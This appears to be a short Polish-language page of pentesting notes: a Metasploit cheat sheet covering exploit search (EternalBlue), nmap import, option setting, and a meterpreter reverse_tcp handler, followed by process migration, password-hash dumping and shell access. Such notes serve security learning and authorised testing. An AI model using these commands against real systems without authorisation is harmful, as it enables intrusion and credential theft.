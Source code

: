 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# metasploit

`msfconsole`

\#szukanie exploitu

```
search exploit eternalblue
```

\#użycie exploitu

```
use
```

\#argumenty w exploicie, które trzeba wypełnić

```
show options
```

\#importowanie bazy np z nmapa (zapisanego jako XML nmap -oX)

```
db_import baza.xml
```

\#uruchomienie nmapa w metasploicie

```
db_nmap -A 10.20.10.4
```

\#ustawianie atrybutów

```
set LHOST RHOST LPORT RPORT
```

\#uruchomienie

```
run
```

\#używanie skryptów

```
msfconsole -r plik 
/usr/share/metasploit-framework/scripts/resource/
```

\#włączanie listenera use exploit/multi/handler set payload windows/meterpreter/reverse\_tcp set lhost set lport exploit

```
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp 
set lhost 
set lport 
exploit
```

\#migrowanie w meterpreterze do innego procesu o id 1300

```
migrate 1300
```

\#zrzut hashy haseł

```
hashdump
```

\#używanie shell zamiast meterpretera - będą działać Windowsowskie komendy (np: whoami)

```
shell
```
